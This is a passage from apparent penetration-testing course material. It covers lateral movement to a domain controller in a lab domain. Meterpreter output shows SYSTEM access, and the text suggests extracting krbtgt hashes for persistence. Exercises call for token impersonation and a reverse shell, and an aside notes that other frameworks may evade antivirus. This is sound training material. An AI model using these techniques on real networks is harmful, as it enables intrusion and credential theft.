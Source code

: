 > Listing 54 - Lateral movement to dc02

We received a new Meterpreter session.

```
C:\Windows\system32> exit
exit

meterpreter > background
[*] Backgrounding session 3...

msf5 exploit(multi/handler) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > sysinfo
Computer        : DC02
...
```

> Listing 55 - Interacting with SYSTEM shell on dc02

Once we interact with the session, we discover we now have SYSTEM integrity access to dc02. Excellent!

We have now fully compromised the evil.com domain and can extract the NTLM hashes of all domain users including _krbtgt_ to retain administrative access to the domain. In a larger environment, we could use this as a base to launch further attacks.

#### Exercises

1. Use the Meterpreter shell to list all access tokens and impersonate the token belonging to the _paul_ user.
2. While impersonating _paul_, perform lateral movement to dc02 and obtain a reverse Meterpreter shell.

#### Extra Mile

In this module, we performed the entire attack from Metasploit and primarily through the Meterpreter shell. Depending on the chosen tools and attack techniques, another framework may prove more favorable.

Evading security mitigations such as antivirus may also be easier with another framework due to a lack of signatures and behavioral detection against it.

Repeat the attack shown in this module with a different framework like PowerShell Empire or Covenant.

1

(ADSecurity, 2015), [https://adsecurity.org/?p=1729](https://adsecurity.org/?p=1729) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5596-1)

## 21.4. Wrapping Up
